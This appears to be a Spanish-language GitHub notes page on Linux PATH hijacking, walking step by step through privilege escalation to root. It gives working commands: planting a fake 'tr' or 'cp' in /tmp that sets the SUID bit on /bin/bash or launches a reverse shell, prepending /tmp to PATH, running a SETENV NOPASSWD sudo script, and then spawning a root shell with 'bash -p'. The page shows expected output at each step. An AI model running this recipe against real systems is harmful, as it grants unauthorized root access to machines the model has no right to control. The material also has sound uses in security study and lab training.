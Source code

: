 <h1 align="center">Path Hijacking</h1>

# **DEFINICIÓN:**

El Path Hijacking (Secuestro de Ruta) es una técnica de ataque donde un atacante manipula la variable de entorno PATH para ejecutar programas maliciosos en lugar de los programas legítimos.

# **FUNCIONAMIENTO**

- El atacante modifica la variable PATH para incluir directorios bajo su control al principio de la lista.

## **Localizar un script que ejecute un comando con la ruta relativa**

Por ejemplo, si leemos el script.sh, nos damos cuenta que hace lo siguiente:

- `cat script.sh`

- `cp /home/* /copia-home`

## **Manipular la variable $PATH**

- `echo PATH=/tmp:$PATH`

## **Crear el comando cp**

- `cd /tmp`
- `nano cp`
- `/bin/bash -c “reverse shell”`

# **EXPLICACIÓN**

Cuando se ejecute el comando cp del script, en el primer lugar que buscará el comando cp es en /tmp por lo que se ejecutará una reverse shell. Si este script lo ejecuta root tendremos una reverse shell como root.

## **Ejemplo de convertir el bash en suid con path hijacking**

### **Manual de Escalada de Privilegios: Shell como Root**

#### **Descripción**

En este manual, se explicará cómo escalar privilegios a root utilizando un script que puede ser ejecutado con sudo sin necesidad de contraseña (NOPASSWD) y con la capacidad de modificar variables de entorno (SETENV). Aprovecharemos la presencia de rutas relativas en el script para realizar un ataque conocido como **Path Hijacking**.

### **Enumeración Básica del Sistema**

**Verificación de Permisos con sudo**: Ejecuta el siguiente comando para ver los permisos del usuario gh0st:

- `sudo -l`

Deberías ver una salida similar a la siguiente:  

- `(ALL : ALL) SETENV: NOPASSWD: /opt/security.sh`

### **Análisis del Script**

1. **Analizar el Contenido del Script /opt/security.sh**: Revisa el script para identificar comandos que se ejecutan con rutas relativas. Esto es crucial para planificar el ataque de Path Hijackingm, EL SCRIPT CONTIENE EL COMANDO TR Y SE NOMBRA DE FORMA RELATIVA.

### **Ataque de Path Hijacking**

**Preparar el Entorno**: Nos movemos a un directorio donde tengamos permisos de escritura, como /tmp:  
- `cd /tmp`

**Crear un Script Malicioso**: Creamos un script llamado tr, que reemplazará al comando tr original y asignará permisos SUID al binario bash:  
- `echo '#!/bin/bash' > tr`

- `echo 'chmod +s /bin/bash' >> tr`

- `chmod +x tr`

**Modificar la Variable PATH**: Ajustamos la variable PATH para que incluya el directorio /tmp antes de las rutas habituales:  
`echo $PATH`

\# Verifica la ruta actual, debería mostrar algo como:

- `/usr/local/bin:/usr/bin:/bin:/usr/games`

- `PATH=/tmp:$PATH`

- `echo $PATH`

\# Verifica que ahora la ruta incluye /tmp al principio:

- `/tmp:/usr/local/bin:/usr/bin:/bin:/usr/games`

**Ejecutar el Script con Path Hijacking**: Ejecutamos el script security.sh especificando la variable de entorno PATH modificada: 

- `sudo -u 'root' PATH=/tmp:$PATH /opt/security.sh`

1. El script se ejecutará y utilizará nuestro script tr en lugar del comando tr original, activando el bit SUID en bash.

### **Verificar y Escalar Privilegios**

**Verificar Permisos del Binario bash**: Verifica que el bit SUID del binario bash está activo:  
- `ls -la /bin/bash`

Deberías ver una salida similar a esta, indicando que el bit SUID está activo:  
- `-rwsr-sr-x 1 root root 1234376 Mar 27 2022 /bin/bash`

**Obtener una Shell con Privilegios de Root**: Ahora puedes ejecutar bash con privilegios de root:  
- `bash -p`

**Verificar Usuario**: Comprueba que tienes privilegios de root:  
- `whoami`

Debería devolver:

- `root`
